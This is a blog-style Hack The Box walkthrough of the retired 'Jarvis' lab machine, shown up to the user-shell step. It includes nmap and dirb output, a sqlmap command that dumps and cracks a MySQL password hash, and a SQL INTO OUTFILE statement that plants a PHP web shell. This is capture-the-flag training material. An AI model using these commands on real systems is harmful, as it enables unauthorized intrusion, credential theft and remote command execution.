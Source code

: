 ```yaml
---
layout: post
title: Jarvis - Hackthebox
date: 2019-11-10
Author: Dark0
tags: [sample, document]
toc: 
pinned: true
---
```


# Hackthebox - Jarvis | Walkthrough

#### Hello guys! Welcome to yet another from hackthebox walkthrough. The new box retired is Jarvis, so we'll solve it. Jarvis is a box classified at a medium level. With Jarvis we learn some skills related to the sqli and binary setuid exploit. Ok, let's go

## Penetration Methodologies

* **Scanning**

   + _nmap_
       
* **Enumeration**

   + _Browsing HTTP server_
   + _Directory Scanning using dirb_
   + _Getting creds with SQLi_

* **Exploitation**

  * **User**

   + _shell phpmyadmin_
   + _Command injection_

  * **Root**
   
   + _SETUID binarie_   
_____________________________________________________________________________________________________________________________

## Scanning

#### To start I just did it first scan with the nmap, we found two ports, 22 to ssh, and 80 to web service. Good, here we go

```
┌─[root@parrot]─[~]
└──╼ #nmap -T4 -A jarvis.htb
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-10 02:19 -03
Nmap scan report for jarvis.htb (10.10.10.143)
Host is up (0.14s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:

```
______________________________________________________________________________________________________________________________

## Enumeration

#### Good, port 80 we get it web page, looks like a page of the hotel, maybe if we'll browse in the page we'll find something interesting

![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/Captura%20de%20tela%20em%202019-11-10%2003-15-33.png)

#### with a little search in the page, I found a suspect link and decided to try to force SQL with a single quote and received a weird result...

![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/quartos.png)


#### I've used the dirb to enumerate directories, but dirbuster and gobuster would work too. We see that the dirb found some pages, that's good. But the page what we interested to is `/phpmyadmin`

![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/Captura%20de%20tela%20em%202019-11-10%2002-19-10.png)

#### I used the sqlmap to dump the users and passwords hashes, the `--passwords` flag is for that

``sqlmap -u http://jarvis.htb/room.php?cod=1 --user-agent "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.87 Safari/537.36" --passwords``

```
[04:27:04] [INFO] fetching database users password hashes
[04:27:04] [INFO] fetching database users
[04:27:04] [INFO] fetching number of database users
[04:27:04] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[04:27:04] [INFO] retrieved: 1
[04:27:05] [INFO] retrieved: 'DBadmin'@'localhost'
[04:27:26] [INFO] fetching number of password hashes for user 'DBadmin'
[04:27:26] [INFO] retrieved: 1
[04:27:27] [INFO] fetching password hashes for user 'DBadmin'
[04:27:27] [INFO] retrieved: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[04:33:12] [INFO] writing hashes to a temporary file '/tmp/sqlmapNCB3gB4320/sqlmaphashes-u13BSC.txt' 
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y
[04:33:16] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[04:33:19] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[04:33:22] [INFO] starting dictionary-based cracking (mysql_passwd)
[04:33:22] [INFO] starting 4 processes 
[04:33:25] [INFO] cracked password 'imissyou' for user 'DBadmin'                                                                                                                             
database management system users password hashes:                                                                                                                                            
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
    clear-text password: imissyou
```

#### User and password found: (DBadmin: imissyou), Let's try login in PHPMyAdmin

______________________________________________________________________________________________________________________________

## EXPLOITATION

### USER

#### We've access to the PHPMyAdmin. Now, we'll put a shell in server to get RCE. To that, we should go to "New" and after "SQL"

![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/phpmyadmin.png)

#### This code will create one archive with the name "shell.php" inside the directory "/var/www/html"
#### ``SELECT "<?php system($_GET['Dark0']); ?>" into outfile "/var/www/html/shell.php"``   
   
![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/Captura%20de%20tela%20em%202019-11-10%2005-04-04.png)   

